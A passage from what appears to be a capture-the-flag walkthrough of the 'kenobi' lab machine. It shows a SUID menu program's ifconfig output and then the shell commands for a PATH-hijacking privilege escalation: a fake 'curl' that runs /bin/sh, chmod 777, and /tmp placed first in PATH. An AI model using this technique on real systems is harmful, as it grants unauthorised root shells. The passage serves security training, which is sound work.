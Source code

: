 ```bash

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
eth0      Link encap:Ethernet  HWaddr 02:f5:a8:1e:1a:65  
          inet addr:10.10.108.221  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::f5:a8ff:fe1e:1a65/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:82827 errors:0 dropped:0 overruns:0 frame:0
          TX packets:79967 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:3791786 (3.7 MB)  TX bytes:4548369 (4.5 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:214 errors:0 dropped:0 overruns:0 frame:0
          TX packets:214 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:16037 (16.0 KB)  TX bytes:16037 (16.0 KB)
```

### Manipulating the Path Variable

- Copy the `/bin/sh` binary to `curl` in the tmp directory: `echo /bin/sh > curl`
- Change the permission to 777: `chmod 777 curl`.
- Modify the **PATH** variable, so the `/tmp` directory is checked first.

```bash
kenobi@kenobi:~$ cd /tmp/

kenobi@kenobi:/tmp$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

kenobi@kenobi:/tmp$ echo /bin/sh > curl

kenobi@kenobi:/tmp$ chmod 777 curl

kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH

kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

### Privilege Escalation

- Execute the `/usr/bin/menu` binary and choose the option 1.
